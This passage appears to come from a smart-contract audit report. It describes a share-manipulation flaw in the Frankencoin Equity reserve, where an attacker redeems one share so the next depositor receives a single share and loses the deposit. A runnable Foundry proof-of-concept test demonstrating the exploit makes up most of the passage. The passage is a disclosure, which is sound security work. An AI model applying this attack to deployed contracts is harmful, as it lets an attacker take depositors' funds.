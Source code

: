 Although Bob deposited 1000 Frankencoin, he received only 1 share in return. As such, all his deposited Frankencoin can be redeemed by Alice using her shares. Furthermore, Alice can cause the next depositor after Bob to also receive 1 share by redeeming 1 share, causing the total amount of shares to become `1000e18 - 1` again.

Note that the attack described above is possbile as long as an attacker has sufficient shares to decrease the total share amount below `1000e18`.

The following Foundry test demonstrates the scenario above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../contracts/Frankencoin.sol";

contract ShareManipulation_POC is Test {
    Frankencoin zchf;
    Equity reserve;
    
    address ALICE = address(0x1);
    address BOB = address(0x2);

    function setUp() public {
        // Setup contracts
        zchf = new Frankencoin(10 days);
        reserve = Equity(address(zchf.reserve()));

        // Give both ALICE and BOB 1000 Frankencoin
        zchf.suggestMinter(address(this), 0, 0, "");
        zchf.mint(ALICE, 1000 ether);
        zchf.mint(BOB, 1000 ether);
    }

    function test_NextDepositorGetsOneShare() public {
        // ALICE deposits 1000 Frankencoin, getting 1000e18 shares
        vm.prank(ALICE);
        zchf.transferAndCall(address(reserve), 1000 ether, "");

        // Time passes until ALICE can redeem
        vm.roll(block.number + 90 * 7200);

        // ALICE redeems 1 share, leaving 1000e18 - 1 shares remaining
        vm.prank(ALICE);
        reserve.redeem(ALICE, 1);
        
        // BOB deposits 1000 Frankencoin, but gets only 1 share
        vm.prank(BOB);
        zchf.transferAndCall(address(reserve), 1000 ether, "");
        assertEq(reserve.balanceOf(BOB), 1);

        // All of BOB's deposited Frankencoin accrue to ALICE
        vm.startPrank(ALICE);
        reserve.redeem(ALICE, reserve.balanceOf(ALICE) - 1e18);
        assertGt(zchf.balanceOf(ALICE), 1999 ether);
    }
}
```

